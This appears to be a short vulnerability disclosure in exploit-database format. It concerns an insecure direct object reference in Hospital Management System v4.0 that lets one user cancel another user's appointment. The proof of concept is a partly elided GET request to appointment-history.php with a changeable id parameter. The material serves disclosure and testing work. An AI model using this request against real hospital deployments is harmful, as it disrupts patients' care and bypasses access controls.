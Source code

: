 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to cancel the appointment that is booked by other user(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
GET /hospital/hms/appointment-history.php?id=6(CHANGE HERE)&cancel=update HTTP/1.1
...
```







